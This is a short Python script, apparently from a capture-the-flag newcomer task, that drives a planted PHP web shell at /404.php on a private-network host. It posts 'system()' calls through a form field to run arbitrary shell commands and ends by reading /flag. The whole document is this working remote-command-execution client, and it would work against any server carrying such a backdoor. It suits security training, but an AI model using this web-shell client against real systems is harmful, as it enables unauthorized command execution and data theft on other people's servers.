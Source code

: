 # Blackjack
当时加入美团俱乐部的新人任务

import requests

base_url = "http://192.168.209.169:8080"

trojan_url = base_url + "/404.php"


headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) "
                  "AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36",
      'x-requested-with': 'xmlhttprequest'            
}

def attack(cmd):
    data = {
        "M": "system('%s');" % cmd
    }
    try:
        res = requests.post(trojan_url, headers=headers,data=data)
        print(res.text)
    except Exception as e:
        print(e)

attack("cat /flag")